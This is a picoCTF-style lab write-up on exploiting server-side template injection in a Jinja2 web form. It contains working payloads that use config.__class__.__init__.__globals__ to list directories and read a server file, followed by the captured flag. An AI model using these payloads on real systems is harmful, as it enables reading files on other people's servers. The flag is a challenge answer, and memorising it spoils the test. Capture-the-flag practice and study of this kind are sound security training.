



# 🧠 SSTI1 – Server-Side Template Injection

## 🧩 Challenge Description

A web form takes user input and reflects it back into the page.  
Suspicion: the server uses a vulnerable template engine (e.g. Jinja2).  
Objective: exploit the SSTI to retrieve a flag stored in the server filesystem.

---

## 🛠️ Tools Used

- Browser (Firefox/Chrome)
- Jinja2 SSTI payloads
- [PayloadAllTheThings – SSTI Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)

---

## 🧪 Exploitation Steps

### 🧪 Step 1 – Confirm SSTI

Entered:
```
{{7*7}}
```
✅ Confirms that template expressions are evaluated → SSTI vulnerability exists.  

---

### 🗂 Step 2 – List Root Directory

Payload:
```
{{config.__class__.__init__.__globals__['__builtins__']['__import__']('os').listdir('/')}}
```
✅ Identified a suspicious directory.  

---

### 📂 Step 3 – Explore `/challenge/` Directory

Payload:
```
{{config.__class__.__init__.__globals__['__builtins__']['__import__']('os').listdir('/challenge')}}
```
🎯 Located the `flag` file.  

---

### 🏁 Step 4 – Read the Flag File

Payload:
```
{{config.__class__.__init__.__globals__['__builtins__']['open']('/challenge/flag').read()}}
```
📥 Extracted the flag.  

---

## 🏁 Flag

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_3066c7bd}
```

---

✅ This challenge highlights the risk of rendering unescaped user input using server-side template engines like Jinja2.
